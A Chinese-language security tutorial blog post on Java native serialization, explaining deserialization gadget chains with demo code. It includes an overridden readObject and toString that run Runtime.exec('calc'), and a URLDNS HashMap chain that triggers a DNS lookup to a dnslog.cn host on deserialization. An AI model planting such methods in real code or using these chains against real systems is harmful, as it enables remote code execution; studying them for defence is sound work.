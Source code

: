 ```yaml
---
title: JavaEE应用&原生反序列化&重写方法&链条分析&触发类&类加载
published: 2025-10-22
description: JavaEE原生序列化和反序列化的实践案例以及利用链导致的安全问题。
tags: [JavaEE,安全开发]
category: 网络安全
draft: false
---
```


## Java—原生使用—序列化&反序列化

序列化：将内存中的对象压缩成字节流。

反序列化：将字节流转换成内存中的对象。

打包->封装->文件（序列化）

文件->解包(反序列化)

### 常规的序列化和反序列化协议

- JAVA内置的writeObject()/readObject()
- JAVA内置的XMLDecoder()/XMLEncoder
- XStream
- SnakeYaml
- FastJson
- Jackson

### 案例演示

UserDemo：

```java
package org.example.seriatestdemo;

import java.io.Serializable;

public class UserDemo implements Serializable {
    public String name = "111";
    public int age = 22;
    public String gender = "male";

    public UserDemo(String name, int age) {
        this.name = name;
        this.age = age;

    }

    // toString 方法，用于打印对象信息
    public String toString() {
        // 返回对象信息的字符串表示
        return "User{" +
                "name='" + name + '\'' +
                ", gender='" + gender + '\'' +
                ", age=" + age +
                '}';
    }

}
```

SerializableDemo序列化：

```java
package org.example.seriatestdemo;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class SerializableDemo {
    public static void main(String[] args) throws IOException {
        // 创建一个用户对象，引用UserDemo
        UserDemo u = new UserDemo("222",114);
        // SerializeTest(obj)
        SerializeTest(u);
        // ser.txt 就是对象u序列化的字节流数据
    }

    public static void SerializeTest(Object obj) throws IOException {
        // FileOutputStream()输出文件
        // 使用ObjectOutputStream 将对象 obj 序列化后输出到文件 ser.txt
        // 将对象obj序列化输出到文件ser.txt
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.txt"));
        oos.writeObject(obj);
    }
}
```

图中为序列化后的字节流数据：

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/35-01.png)

UnSerializableDemo反序列化：

```java
package org.example.seriatestdemo;

import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UnSerializableDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        //调用下面的方法 传输ser.txt 解析还原反序列化
        Object obj = UnSerializableTest("ser.txt");

        //对obj对象进行输出 默认调用原始对象的toString方法
        System.out.println(obj);
    }

    public static Object UnSerializableTest(String Filename) throws IOException, ClassNotFoundException {
        // 读取Filename文件进行反序列化还原
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
}
```

进行反序列化后的结果：

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/35-02.png)

### 安全问题

**反序列化利用链**

1. 入口类的 readObject 直接调用危险方法。
2. 入口参数中包含可控类，该类有危险方法， readObject 时调用。
3. 入口类参数中包含可控类，该类又调用其他有危险方法的类， readObject 时调用。
4. 构造函数 / 静态代码块等类加载时隐式执行。

#### 入口类的 readObject 直接调用

在UserDemo中写入readObject方法：

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    //指向正确readObject
    ois.defaultReadObject();
    Runtime.getRuntime().exec("calc");
}
```

经过序列化输出为ser.txt，之后在执行反序列化操作时，因为反序列化这时调用的不是Java本身的方法，而是UserDemo对readObject()进行了重写之后的方法，所以就会执行到远程执行计算器的代码。

#### 入口参数中包含可控类

正常代码中 创建对象HashMap，会用到原生态readObject方法去反序列化数据，

readObject 源方法就在ObjectInputSteam，但是HashMap也有readObject方法，

反序列化readObject方法调用 HashMap里面的readObject。

UrlDns代码如下：

```java
package org.example.seriatestdemo;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrlDns {
//    执行链：
//		序列化对象hash 来源于自带类HashMap
//         *   Gadget Chain:
//                *   HashMap.readObject()
//                *       HashMap.putVal()
//                *         HashMap.hash()
//                *           URL.hashCode()
//							hashCode执行结果触发访问DNS请求，如果这里是执行命令的话，就是RCE漏洞。
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        HashMap<URL, Integer> map = new HashMap<>();
        // 这里使用的是dnslog中的地址，因为最终结果URL.hashcode()就是dns的访问
        URL url = new URL("http://6asagu.dnslog.cn");
        map.put(url,1);
        SerializeTest(map);
        UnSerializableTest("Dnslog.txt");
    }

    public static void SerializeTest(Object obj) throws IOException {
        // FileOutputStream()输出文件
        // 使用ObjectOutputStream 将对象 obj 序列化后输出到文件 ser.txt
        // 将对象obj序列化输出到文件ser.txt
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("Dnslog.txt"));
        oos.writeObject(obj);
    }

    public static Object UnSerializableTest(String Filename) throws IOException, ClassNotFoundException {
        // 读取Filename文件进行反序列化还原
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object o = ois.readObject();
        return o;
    }
}
```

#### 入口类参数中包含可控类

待补充...

#### 构造函数或静态代码块等类加载时隐式执行

UnserializableDemo：

```java
public class UnserializableDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        //调用下面的方法 传输ser.txt 解析还原反序列化
        Object obj =UnserializableTest("ser.txt");
 
        //对obj对象进行输出 默认调用原始对象的toString方法
        System.out.println(obj);
    }
```

 UserDemo：

```java
@Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
 
        return "UserDemo{" +
                "name='" + name + '\'' +
                ", gender='" + gender + '\'' +
                ", age=" + age +
                '}';
    }
```

因为有toString()进行string方法的改变，在unserializableDemo中System.out.println(obj);//对obj对象进行输出 默认调用原始对象的toString方法